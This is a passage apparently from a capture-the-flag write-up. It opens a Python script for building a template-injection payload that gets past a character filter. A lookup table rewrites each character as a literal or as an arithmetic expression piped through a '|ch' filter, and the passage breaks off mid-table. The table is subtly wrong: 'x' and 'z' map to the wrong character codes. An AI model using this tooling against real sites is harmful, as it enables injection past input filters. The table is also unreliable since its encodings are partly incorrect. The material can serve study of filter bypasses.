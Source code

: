 I created a python script to automate the payload construction:
```py
#! /usr/bin/env python3
import requests
import string
import re
from bs4 import BeautifulSoup as bs
from urllib.parse import unquote
table = {
    '1':"'1'", 
    '4':"'4'", 
    '6':"'6'", 
    'b':"'b'", 
    'c':"'c'", 
    'd':"'d'", 
    'e':"'e'", 
    'h':"'h'", 
    'l':"'l'", 
    'o':"'o'", 
    'r':"'r'", 
    'u':"'u'", 
    '"':"'\"'", 
    '#':"'#'", 
    '&':"'&'", 
    "'":"\''\'", 
    '(':"'('", 
    ')':"')'", 
    '*':"'*'", 
    '-':"'-'", 
    '{':"'{'", 
    '|':"'|'", 
    '}':"'}'",
    'a': "(111-14)|ch",
    'f': "(6*(16+1))|ch",
    'g': "(111-6-1-1)|ch",
    'i': "(111-6)|ch",
    'j': "(111-4-1)|ch",
    'k': "(111-4)|ch",
    'm': "(111-1-1)|ch",
    'n': "(111-1)|ch",
    'p': "(111+1)|ch",
    'q': "(111+1+1)|ch",
    's': "(111+4)|ch",
    't': "(111+6-1)|ch",
    'v': "(114+4)|ch",
    'w': "(114+6-1)|ch",
    'x': "(16+4)|ch",
    'y': "(111+6+4)|ch",
    'z': "(114+6)|ch",
    '0': "(44+4)|ch",
    '2': "(44+6)|ch",
    '3': "(44+6+1)|ch",
    '5': "(46+6+1)|ch",
    '7': "(46+6+4-1)|ch",
    '8': "(46+6+4)|ch",
    '9': "(46+6+6-1)|ch",
    ".": "46|ch",
    "_": "(111-16)|ch",
    " ": "(44-6-6)|ch",
    "[": "(111-16-4)|ch",
    "]": "(111-14-4)|ch",
    "/": "(46+1)|ch",
    "\\": "((11+6+6)*4)|ch",
    "\t": "(6+4-1)|ch"
```